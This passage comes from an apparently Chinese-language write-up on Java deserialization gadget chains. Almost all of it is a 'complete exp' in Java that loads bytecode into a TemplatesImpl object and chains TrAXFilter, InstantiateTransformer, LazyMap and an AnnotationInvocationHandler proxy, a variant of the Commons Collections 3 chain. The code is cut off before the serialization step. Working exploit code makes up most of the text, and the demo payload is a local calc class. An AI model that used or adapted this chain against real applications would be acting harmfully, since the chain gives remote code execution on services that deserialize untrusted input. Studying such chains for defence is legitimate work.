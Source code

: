 后面再嫁接cc1的ChainedTransform.transform思路，链子就构造成功了。

### 完整exp

```plain
package org.example;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},invocationHandler);
```